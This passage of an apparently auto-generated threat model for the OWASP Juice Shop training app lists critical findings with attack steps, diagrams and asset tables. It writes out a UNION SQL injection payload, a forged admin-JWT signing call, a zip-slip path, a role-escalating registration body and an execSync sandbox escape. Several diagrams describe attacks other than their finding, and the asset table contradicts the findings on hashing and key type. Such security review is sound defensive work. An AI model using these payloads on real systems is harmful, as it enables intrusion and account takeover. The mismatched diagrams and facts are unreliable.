1. The full PKCS#1 RSA-1024 private key is hardcoded as a string literal at `lib/insecurity.ts:23`.
2. Any developer with repository read access - or any attacker who gains access to the source tarball - can extract this key and call `jwt.sign({ data: { id: 1, role: 'admin', email: 'admin@juice-sh.op' } }, privateKey, { algorithm: 'RS256' })` to issue an arbitrary admin JWT.
3. The key cannot be rotated without a code change and redeployment.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant Repo
    participant App
    Note over Repo: Public repository
    Note over App: backend-api - lib/insecurity.ts:23
    Attacker->>Repo: Clone or browse - extract private key from lib/insecurity.ts line 23
    Attacker->>Attacker: Sign forged token / signature with the extracted key
    Attacker->>App: Submit forged artefact in normal authentication flow
    App-->>Attacker: Request accepted as authentic - signature validates
    alt Current state — F-009
        Attacker->>Repo: Crafted request exploiting F-009 succeeds
        Repo-->>Attacker: Exploitation confirmed
    else After M-001 — Centralise JWT secret management and enforce algorithms allo
        Attacker->>Repo: Same request after the fix is applied
        Repo-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-001](#m-001) (Centralise JWT secret management and enforce algorithms allo) lands, 🔴 [F-009](#f-009) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`) is exploitable at `lib/insecurity.ts:23` (Critical-severity, [CWE-321](https://cwe.mitre.org/data/definitions/321.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-001](#m-001) (Centralise JWT secret management and enforce algorithms allowlist)
- Defence in depth: ❸ [M-007](#m-007) (Manual review: verify Hardcoded RSA Private Key at `lib/insecurity.ts:23`)

### 3.6 Derived Predictable Password from Email Claim…

**Source:** 🔴 [F-010](#f-010) — `frontend/src/app/oauth/oauth.component.ts:30`

Severity **Critical** ([CWE-522](https://cwe.mitre.org/data/definitions/522.html)). STRIDE: Spoofing. See [§8 F-010](#f-010) for the full register row.

**Attack Steps**

1. When completing the OAuth flow, `OAuthComponent.login()` at line 46 submits `{ email: profile.email, password: btoa(profile.email.split('').reverse().join('')) }` as the Juice Shop login credential.
2. The password is the base64-encoding of the reversed email address - a deterministic, publicly derivable value.
3. Any attacker who knows a target user's email address can compute this password without OAuth interaction and authenticate directly against the `POST /rest/user/login` endpoint with the derived credential, bypassing OAuth entirely.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: frontend-spa - frontend/src/app/oauth/oauth.component.ts:30
    Attacker->>App: Crafted request exercising the weakness at frontend/src/app/oauth/oauth.component.ts line 30
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-522
    alt Current state — F-010
        Attacker->>App: Crafted request exploiting F-010 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-008 — Manual review: verify Derived Predictable Password from Emai
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❸ [M-008](#m-008) (Manual review: verify Derived Predictable Password from Emai) lands, 🔴 [F-010](#f-010) — Derived Predictable Password from Email Claim (`oauth.component.ts:30`) is exploitable at `frontend/src/app/oauth/oauth.component.ts:30` (Critical-severity, [CWE-522](https://cwe.mitre.org/data/definitions/522.html)).

**Defense in Depth**

- Primary mitigation: ❸ [M-008](#m-008) (Manual review: verify Derived Predictable Password from Email Claim at `frontend/src/app/oauth/oauth.component.ts:30`)

### 3.7 SQL Injection via UNION in Product Search…

**Source:** 🔴 [F-011](#f-011) — `routes/search.ts:23`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-011](#f-011) for the full register row.

**Attack Steps**

1. `req.query.q` is interpolated into a LIKE query at `routes/search.ts:23` after a length truncation at 200 characters.
2. An anonymous attacker sends `')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users--` to the GET `/rest/products/search?q=` endpoint.
3. The response JSON includes all user rows with email addresses and `MD5`-hashed passwords.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    participant DB
    Note over API: backend-api - routes/search.ts:23
    Note over DB: Database
    Attacker->>API: Crafted search query (HTML payload in `q=` parameter) with classical OR 1=1 payload
    API->>DB: SQL built by string interpolation - payload becomes query
    DB-->>API: First matching row regardless of intended predicate
    API-->>Attacker: 200 OK with authenticated session / leaked rows
    alt Current state — F-011
        Attacker->>API: Crafted request exploiting F-011 succeeds
        API-->>Attacker: Exploitation confirmed
    else After M-002 — Adopt parameterised queries / ORM across all data-access pat
        Attacker->>API: Same request after the fix is applied
        API-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-002](#m-002) (Adopt parameterised queries / ORM across all data-access pat) lands, 🔴 [F-011](#f-011) — SQL Injection via UNION in Product Search (`routes/search.ts:23`) is exploitable at `routes/search.ts:23` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-002](#m-002) (Adopt parameterised queries / ORM across all data-access paths)
- Defence in depth: ❸ [M-009](#m-009) (Manual review: verify SQL Injection via UNION in Product Search at `routes/search.ts:23`)

### 3.8 Zip-slip arbitrary file write via raw `entry.path` in ZIP ext…

**Source:** 🔴 [F-012](#f-012) — `routes/fileUpload.ts:45`

Severity **Critical** ([CWE-22](https://cwe.mitre.org/data/definitions/22.html)). STRIDE: Tampering. See [§8 F-012](#f-012) for the full register row.

**Attack Steps**

1. An attacker uploads a ZIP archive containing an entry with a path-traversal sequence such as `…/…/…/…/.ssh/authorized_keys`.
2. At line 41 `const fileName = entry.path` captures this raw path.
3. Line 42 computes `absolutePath = path.resolve('uploads/complaints/' + fileName)`.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: file-upload-service - routes/fileUpload.ts:45
    Attacker->>App: Crafted request exercising the weakness at routes/fileUpload.ts line 45
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-22
    alt Current state — F-012
        Attacker->>App: Crafted request exploiting F-012 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-010 — Manual review: verify Zip-slip arbitrary file write via raw
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❸ [M-010](#m-010) (Manual review: verify Zip-slip arbitrary file write via raw ) lands, 🔴 [F-012](#f-012) — Zip-slip arbitrary file write via raw entry.path in ZIP extraction is exploitable at `routes/fileUpload.ts:45` (Critical-severity, [CWE-22](https://cwe.mitre.org/data/definitions/22.html)).

**Defense in Depth**

- Primary mitigation: ❸ [M-010](#m-010) (Manual review: verify Zip-slip arbitrary file write via raw `entry.path` in ZIP extraction at `routes/fileUpload.ts:45`)

### 3.9 Reflected DOM XSS via Search Query Parameter…

**Source:** 🔴 [F-013](#f-013) — `frontend/src/app/search-result/search-result.component.ts:170`

Severity **Critical** ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)). STRIDE: Tampering. See [§8 F-013](#f-013) for the full register row.

**Attack Steps**

1. The `filterTable()` method at line 170 passes `route.snapshot.queryParams.q` directly to `sanitizer.bypassSecurityTrustHtml(queryParam)`.
2. Angular's `DomSanitizer.bypassSecurityTrustHtml()` explicitly disables Angular's built-in HTML sanitization for the value.
3. The result is bound to `<span id="searchValue" [innerHTML]="searchValue">` in the search-result template.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    actor Victim
    participant App
    Note over App: frontend-spa - frontend/src/app/search-result/search-result.component.ts:170
    Attacker->>App: Crafted search query (HTML payload in `q=` parameter) with HTML payload - onerror handler exfiltrates cookies
    Victim->>App: Loads page rendering the stored / reflected payload
    App-->>Victim: HTML contains the unescaped attacker payload - script executes
    Victim->>Attacker: Outbound request leaks session cookie / token
    alt Current state — F-013
        Attacker->>App: Crafted request exploiting F-013 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-011 — Manual review: verify Reflected DOM XSS via Search Query Par
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❸ [M-011](#m-011) (Manual review: verify Reflected DOM XSS via Search Query Par) lands, 🔴 [F-013](#f-013) — Reflected DOM XSS via Search Query Parameter (`search-result.component.ts:170`) is exploitable at `frontend/src/app/search-result/search-result.component.ts:170` (Critical-severity, [CWE-79](https://cwe.mitre.org/data/definitions/79.html)).

**Defense in Depth**

- Primary mitigation: ❸ [M-011](#m-011) (Manual review: verify Reflected DOM XSS via Search Query Parameter at `frontend/src/app/search-result/search-result.component.ts:170`)

### 3.10 Hardcoded RSA Private Key (lib/insecurity.ts:23)

**Source:** 🔴 [F-014](#f-014) — `lib/insecurity.ts:23`

Severity **Critical** ([CWE-798](https://cwe.mitre.org/data/definitions/798.html)). STRIDE: Information Disclosure. See [§8 F-014](#f-014) for the full register row.

**Attack Steps**

1. The RSA private key used to sign all application JWTs is hardcoded verbatim in `lib/insecurity.ts` at line 23 as a multi-line PEM string.
2. Any actor with read access to the source repository - including third-party contributors, CI/CD workers, code-review tools, and supply-chain components - obtains the signing key.
3. With this key, an attacker can mint valid `RS256` tokens for any user identity or privilege level.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - lib/insecurity.ts:23
    Attacker->>App: Crafted request exercising the weakness at lib/insecurity.ts line 23
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-798
    alt Current state — F-014
        Attacker->>App: Crafted request exploiting F-014 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-001 — Centralise JWT secret management and enforce algorithms allo
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-001](#m-001) (Centralise JWT secret management and enforce algorithms allo) lands, 🔴 [F-014](#f-014) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`) is exploitable at `lib/insecurity.ts:23` (Critical-severity, [CWE-798](https://cwe.mitre.org/data/definitions/798.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-001](#m-001) (Centralise JWT secret management and enforce algorithms allowlist)
- Defence in depth: ❸ [M-012](#m-012) (Manual review: verify Hardcoded RSA Private Key at `lib/insecurity.ts:23`)

### 3.11 MD5 Password Hashing Without Salt (lib/insecurity.ts:43)

**Source:** 🔴 [F-015](#f-015) — `lib/insecurity.ts:43`

Severity **Critical** ([CWE-916](https://cwe.mitre.org/data/definitions/916.html)). STRIDE: Information Disclosure. See [§8 F-015](#f-015) for the full register row.

**Attack Steps**

1. `lib/insecurity.ts:43` defines `hash = (data) => crypto.createHash('md5').update(data).digest('hex')` which is used as the sole password hashing function throughout the application (login at `routes/login.ts:34`, changePassword at `routes/changePassword.ts:39`).
2. `MD5` produces a fast, unsalted digest.
3. A combined attack using the SQLi in `routes/search.ts:23` dumps the entire Users table exposing all `MD5` password hashes; these hashes are then cracked offline via rainbow tables (CrackStation lists 15+ billion `MD5` entries) in minutes.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - lib/insecurity.ts:43
    Attacker->>Attacker: Craft JWT with header alg=none and admin claims
    Attacker->>App: Crafted HTTP request to the affected endpoint with the unsigned token in Authorization
    App->>App: Validate token without pinning the signing algorithm
    App-->>Attacker: 200 OK - request authorised under forged admin identity
    alt Current state — F-015
        Attacker->>App: Crafted request exploiting F-015 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-013 — Manual review: verify MD5 Password Hashing Without Salt at l
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❸ [M-013](#m-013) (Manual review: verify `MD5` Password Hashing Without Salt at l) lands, 🔴 [F-015](#f-015) — MD5 Password Hashing Without Salt (`lib/insecurity.ts:43`) is exploitable at `lib/insecurity.ts:43` (Critical-severity, [CWE-916](https://cwe.mitre.org/data/definitions/916.html)).

**Defense in Depth**

- Primary mitigation: ❸ [M-013](#m-013) (Manual review: verify `MD5` Password Hashing Without Salt at `lib/insecurity.ts:43`)

### 3.12 Sandbox Escape via Unsafe Expression Evaluation…

**Source:** 🔴 [F-016](#f-016) — `routes/b2bOrder.ts:23`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Elevation of Privilege. See [§8 F-016](#f-016) for the full register row.

**Attack Steps**

1. The `b2bOrder()` handler passes the HTTP request body field `orderLinesData` directly to `safeEval()` from the `notevil` package inside a Node\.js vm context (`routes/b2bOrder.ts` line 23). `notevil` is known to be bypassable via prototype pollution: an attacker crafts an `orderLinesData` expression that writes to `Object.prototype.__proto__` or `constructor.prototype`, poisoning properties that `notevil`'s runtime subsequently accesses.
2. Once prototype properties are poisoned, the restriction checks `notevil` performs on evaluated code no longer function, allowing the attacker to call `process.mainModule.require('child_process').execSync(…)` or equivalent, achieving arbitrary server-side code execution.
3. The vm context sandboxing itself does not provide isolation in Node\.js - `vm.createContext` shares the same V8 isolate and prototype chain as the host process.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    participant Sandbox
    Note over API: b2b-api - routes/b2bOrder.ts:23
    Note over Sandbox: Eval / VM context
    Attacker->>API: Crafted HTTP request to the affected endpoint with JS payload escaping the sandbox
    API->>Sandbox: Pass attacker-controlled code to eval / vm.runInContext
    Sandbox->>Sandbox: Prototype-walk reaches the host realm - RCE
    API-->>Attacker: Command output / arbitrary side effects
    alt Current state — F-016
        Attacker->>API: Crafted request exploiting F-016 succeeds
        API-->>Attacker: Exploitation confirmed
    else After M-014 — Manual review: verify Sandbox Escape via Unsafe Expression E
        Attacker->>API: Same request after the fix is applied
        API-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❸ [M-014](#m-014) (Manual review: verify Sandbox Escape via Unsafe Expression E) lands, 🔴 [F-016](#f-016) — Sandbox Escape via Unsafe Expression Evaluation (`routes/b2bOrder.ts:23`) is exploitable at `routes/b2bOrder.ts:23` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ❸ [M-014](#m-014) (Manual review: verify Sandbox Escape via Unsafe Expression Evaluation at `routes/b2bOrder.ts:23`)

### 3.13 Mass Assignment Allows Self-Promotion to Admin Role…

**Source:** 🔴 [F-017](#f-017) — `server.ts:483`

Severity **Critical** ([CWE-915](https://cwe.mitre.org/data/definitions/915.html)). STRIDE: Elevation of Privilege. See [§8 F-017](#f-017) for the full register row.

**Attack Steps**

1. The finale-rest auto-generated endpoint for `POST /api/Users` at `server.ts:500` accepts any JSON body field that maps to a `UserModel` column.
2. The `UserModel` has a `role` column.
3. A user registration request `{ "email": "attacker@evil.com", "password": "pass", "passwordRepeat": "pass", "role": "admin" }` creates an account with `role: admin`.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - server.ts:483
    Attacker->>App: Crafted request exercising the weakness at server.ts line 483
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-915
    alt Current state — F-017
        Attacker->>App: Crafted request exploiting F-017 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-015 — Manual review: verify Mass Assignment Allows Self-Promotion
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❸ [M-015](#m-015) (Manual review: verify Mass Assignment Allows Self-Promotion ) lands, 🔴 [F-017](#f-017) — Mass Assignment Allows Self-Promotion to Admin Role (`server.ts:500`) is exploitable at `server.ts:483` (Critical-severity, [CWE-915](https://cwe.mitre.org/data/definitions/915.html)).

**Defense in Depth**

- Primary mitigation: ❸ [M-015](#m-015) (Manual review: verify Mass Assignment Allows Self-Promotion to Admin Role at `server.ts:483`)

### 3.14 Missing authentication on POST /file-upload allows unauthen…

**Source:** 🔴 [F-018](#f-018) — `server.ts:309`

Severity **Critical** ([CWE-306](https://cwe.mitre.org/data/definitions/306.html)). STRIDE: Elevation of Privilege. See [§8 F-018](#f-018) for the full register row.

**Attack Steps**

1. The route pipeline registered at `server.ts:309` is: `uploadToMemory.single('file'), ensureFileIsPassed, metrics, checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handleYamlUpload`.
2. No authentication or session middleware appears in this chain.
3. Any unauthenticated HTTP client (no JWT, no session cookie) can upload ZIP archives, XML files, or YAML files.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - server.ts:309
    Attacker->>App: Crafted request exercising the weakness at server.ts line 309
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-306
    alt Current state — F-018
        Attacker->>App: Crafted request exploiting F-018 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-016 — Manual review: verify Missing authentication on POST /file-u
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❸ [M-016](#m-016) (Manual review: verify Missing authentication on POST `/file-u`) lands, 🔴 [F-018](#f-018) — Missing authentication on POST `/file-upload` allows unauthenticated file upload… is exploitable at `server.ts:309` (Critical-severity, [CWE-306](https://cwe.mitre.org/data/definitions/306.html)).

**Defense in Depth**

- Primary mitigation: ❸ [M-016](#m-016) (Manual review: verify Missing authentication on POST `/file-upload` allows unauthenticated file upload… at `server.ts:309`)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

Information assets and the classification level that drives the Confidentiality / Integrity / Availability targets used in [§8 Findings Register](#8-findings-register) risk scoring.

<table style="table-layout:fixed;width:100%">
<colgroup><col style="width:20%"><col style="width:6%"><col style="width:12%"><col style="width:29%"><col style="width:33%"></colgroup>
<thead><tr><th>Asset</th><th>ID</th><th>Classification</th><th>Description</th><th>Linked Threats</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere">JWT Signing Secret</td><td style="white-space:nowrap">A-002</td><td>Restricted</td><td>Hardcoded <code>HS256</code> JWT signing secret in <code>lib/insecurity.ts</code>. Compromise allows forgery of arbitrary user and admin tokens without credential validation.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-001">F-001</a> — JWT Algorithm Confusion Missing algorithms Allowlist (<code>lib/insecurity.ts</code>)<br/>🔴 <a href="#f-008">F-008</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-009">F-009</a> — Hardcoded RSA Private Key (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-010">F-010</a> — Derived Predictable Password from Email Claim (<code>oauth.component.ts:30</code>)<br/>🔴 <a href="#f-011">F-011</a> — SQL Injection via UNION in Product Search (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-013">F-013</a> — Reflected DOM XSS via Search Query Parameter (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-014">F-014</a> — Hardcoded RSA Private Key (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-015">F-015</a> — `MD5` Password Hashing Without Salt (<code>lib/insecurity.ts:43</code>)<br/>🔴 <a href="#f-017">F-017</a> — Mass Assignment Allows Self-Promotion to Admin Role (<code>server.ts:500</code>)<br/>🔴 <a href="#f-019">F-019</a> — JWT decode used without signature verification<br/>🔴 <a href="#f-026">F-026</a> — Stored XSS via Product Description Trust Bypass (<code>search-result.component.ts:132</code>)<br/>🟠 <a href="#f-041">F-041</a> — Missing Rate Limit on Login Endpoint (<code>server.ts</code>)<br/>🔴 <a href="#f-052">F-052</a> — Stored XSS via lastLoginIp JWT Claim Trust Bypass<br/>🟡 <a href="#f-054">F-054</a> — Open Redirect Allowlist Bypass via Substring Match (<code>lib/insecurity.ts:138</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Alchemy Web3 RPC API Key</td><td style="white-space:nowrap">A-004</td><td>Restricted</td><td>Hardcoded Alchemy WebSocket RPC API key in <code>routes/web3Wallet.ts</code> and <code>routes/nftMint.ts</code>. Enables blockchain API access; key permanently compromised in public commit history.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-002">F-002</a> — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou…<br/>🔴 <a href="#f-008">F-008</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-009">F-009</a> — Hardcoded RSA Private Key (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-011">F-011</a> — SQL Injection via UNION in Product Search (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-013">F-013</a> — Reflected DOM XSS via Search Query Parameter (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-014">F-014</a> — Hardcoded RSA Private Key (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-022">F-022</a> — Missing Authorization on Products PUT Endpoint (<code>server.ts:369</code>)<br/>🔴 <a href="#f-026">F-026</a> — Stored XSS via Product Description Trust Bypass (<code>search-result.component.ts:132</code>)<br/>🟠 <a href="#f-036">F-036</a> — Plaintext Payment Card Storage (<code>models/card.ts:39</code>)<br/>🔴 <a href="#f-045">F-045</a> — Unauthenticated Admin Configuration Endpoints (<code>server.ts:604</code>)<br/>🔴 <a href="#f-047">F-047</a> — Sensitive REST route registered without authentication middleware<br/>🔴 <a href="#f-048">F-048</a> — Client-Side-Only Admin Route Guard (<code>frontend/src/app/app.guard.ts:52</code>)<br/>🔴 <a href="#f-052">F-052</a> — Stored XSS via lastLoginIp JWT Claim Trust Bypass</td></tr>
<tr><td style="overflow-wrap:anywhere">GitHub Actions Pipeline Secrets</td><td style="white-space:nowrap">A-011</td><td>Restricted</td><td>CI/CD pipeline secrets (Docker Hub credentials, npm tokens, GitHub tokens) stored in GitHub Actions secrets. Accessible to workflows with write permissions including <code>pr-compliance.yml</code>.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-008">F-008</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-010">F-010</a> — Derived Predictable Password from Email Claim (<code>oauth.component.ts:30</code>)<br/>🔴 <a href="#f-011">F-011</a> — SQL Injection via UNION in Product Search (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-013">F-013</a> — Reflected DOM XSS via Search Query Parameter (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-015">F-015</a> — `MD5` Password Hashing Without Salt (<code>lib/insecurity.ts:43</code>)<br/>🔴 <a href="#f-026">F-026</a> — Stored XSS via Product Description Trust Bypass (<code>search-result.component.ts:132</code>)<br/>🟠 <a href="#f-033">F-033</a> — GitHub Actions workflow-level permissions block<br/>🟠 <a href="#f-034">F-034</a> — Third-party GitHub Actions pinned to commit SHA<br/>🟠 <a href="#f-035">F-035</a> — Org-Admin Token Exposed in pull_request_target Context (<code>pr-compliance.yml:438</code>)<br/>🟠 <a href="#f-041">F-041</a> — Missing Rate Limit on Login Endpoint (<code>server.ts</code>)<br/>🔴 <a href="#f-052">F-052</a> — Stored XSS via lastLoginIp JWT Claim Trust Bypass</td></tr>
<tr><td style="overflow-wrap:anywhere">User Credentials Database</td><td style="white-space:nowrap">A-001</td><td>Confidential</td><td>SQLite users table containing email addresses, bcrypt-hashed passwords, isAdmin flags, and associated profile data for all registered users.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-008">F-008</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-010">F-010</a> — Derived Predictable Password from Email Claim (<code>oauth.component.ts:30</code>)<br/>🔴 <a href="#f-011">F-011</a> — SQL Injection via UNION in Product Search (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-013">F-013</a> — Reflected DOM XSS via Search Query Parameter (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-015">F-015</a> — `MD5` Password Hashing Without Salt (<code>lib/insecurity.ts:43</code>)<br/>🔴 <a href="#f-026">F-026</a> — Stored XSS via Product Description Trust Bypass (<code>search-result.component.ts:132</code>)<br/>🟠 <a href="#f-041">F-041</a> — Missing Rate Limit on Login Endpoint (<code>server.ts</code>)<br/>🔴 <a href="#f-052">F-052</a> — Stored XSS via lastLoginIp JWT Claim Trust Bypass</td></tr>
<tr><td style="overflow-wrap:anywhere">Payment Card Data</td><td style="white-space:nowrap">A-003</td><td>Confidential</td><td>Plaintext payment card numbers stored in the cards table (intentional OWASP A02:2021 challenge). Not real card data but demonstrates cleartext storage vulnerability.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-002">F-002</a> — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou…<br/>🔴 <a href="#f-008">F-008</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-011">F-011</a> — SQL Injection via UNION in Product Search (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-013">F-013</a> — Reflected DOM XSS via Search Query Parameter (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-022">F-022</a> — Missing Authorization on Products PUT Endpoint (<code>server.ts:369</code>)<br/>🔴 <a href="#f-026">F-026</a> — Stored XSS via Product Description Trust Bypass (<code>search-result.component.ts:132</code>)<br/>🟠 <a href="#f-036">F-036</a> — Plaintext Payment Card Storage (<code>models/card.ts:39</code>)<br/>🔴 <a href="#f-045">F-045</a> — Unauthenticated Admin Configuration Endpoints (<code>server.ts:604</code>)<br/>🔴 <a href="#f-047">F-047</a> — Sensitive REST route registered without authentication middleware<br/>🔴 <a href="#f-048">F-048</a> — Client-Side-Only Admin Route Guard (<code>frontend/src/app/app.guard.ts:52</code>)<br/>🔴 <a href="#f-052">F-052</a> — Stored XSS via lastLoginIp JWT Claim Trust Bypass</td></tr>
<tr><td style="overflow-wrap:anywhere">Challenge Solution Database</td><td style="white-space:nowrap">A-005</td><td>Internal</td><td>SQLite challenges table tracking solved/unsolved state for all OWASP challenges. Challenge completion events are broadcast via Socket\.IO to all connected clients.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">User Feedback and Reviews</td><td style="white-space:nowrap">A-006</td><td>Internal</td><td>User-submitted product reviews, feedback, and complaint data stored in SQLite. Subject to stored XSS and NoSQL injection via unsanitized input fields.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">File Upload Storage (/ftp/ directory)</td><td style="white-space:nowrap">A-008</td><td>Internal</td><td>Local filesystem directory served as public static files via serve-index. Uploaded files land here; the directory is also served as a listing, enabling path traversal and file exfiltration.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-012">F-012</a> — Zip-slip arbitrary file write via raw <code>entry.path</code> in ZIP extraction<br/>🔴 <a href="#f-022">F-022</a> — Missing Authorization on Products PUT Endpoint (<code>server.ts:369</code>)<br/>🟠 <a href="#f-030">F-030</a> — No audit logging of file upload events or file access on /ftp/ (<code>fileServer.ts</code>)<br/>🟠 <a href="#f-031">F-031</a> — Unauthenticated Access Log Directory Listing (<code>server.ts:281</code>)<br/>🟠 <a href="#f-037">F-037</a> — Null-byte injection bypasses extension allowlist to serve restricted FTP files<br/>🟠 <a href="#f-038">F-038</a> — Publicly exposed /ftp/ directory listing reveals sensitive internal files<br/>🔴 <a href="#f-045">F-045</a> — Unauthenticated Admin Configuration Endpoints (<code>server.ts:604</code>)<br/>🔴 <a href="#f-047">F-047</a> — Sensitive REST route registered without authentication middleware<br/>🔴 <a href="#f-048">F-048</a> — Client-Side-Only Admin Route Guard (<code>frontend/src/app/app.guard.ts:52</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Prometheus Metrics Endpoint</td><td style="white-space:nowrap">A-009</td><td>Internal</td><td>Unauthenticated <code>/metrics</code> endpoint (prom-client) exposing request counts, latency histograms, and application internals. Reveals business logic patterns and internal timing.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Claude Code AI Agent Configuration</td><td style="white-space:nowrap">A-012</td><td>Internal</td><td>Committed .claude/settings.local.json with Bash(<em>:</em>) wildcard permission. Enables unconstrained shell execution for any developer using Claude Code against this repo.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Application Source Code (Public GitHub Repo)</td><td style="white-space:nowrap">A-007</td><td>Public</td><td>Public GitHub repository at github.com/juice-shop/juice-shop. Enables attacker reconnaissance including committed secrets, vulnerability patterns, and CI/CD pipeline configuration.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Swagger/OpenAPI API Specification</td><td style="white-space:nowrap">A-010</td><td>Public</td><td>Unauthenticated <code>/api-docs</code> endpoint (swagger-ui-express) listing all API routes, parameters, and schemas. Provides attackers a complete API surface map.</td><td style="overflow-wrap:anywhere">-</td></tr>
</tbody>
</table>

---

## 5. Attack Surface

Network-reachable entry points classified by authentication requirement. Each row links to the threat(s) referenced in its **Notes** column. The **Risk** column reflects the highest-severity linked finding. Entry points with no linked finding are still listed when they sit on a sensitive surface (authentication, registration, management) or look like a missing-auth/authz suspect - marked **⚑ Review** in Notes.

### 5.1 Unauthenticated Entry Points (57)

<table style="table-layout:fixed;width:100%">
<colgroup><col style="width:9%"><col style="width:30%"><col style="width:14%"><col style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/file-upload</code></td><td>🔴 Critical</td><td>🟠 <a href="#f-042">F-042</a> (XML Entity Expansion DoS in File Upload)<br/>🟠 <a href="#f-043">F-043</a> (YAML bomb and XML billion-laughs cause CPU/memory exhaustion on upload endpoint)<br/>🔴 <a href="#f-018">F-018</a> (Missing authentication on POST <code>/file-upload</code> allows unauthenticated file upload…)<br/>handler: <code>server.ts:309</code></td></tr>
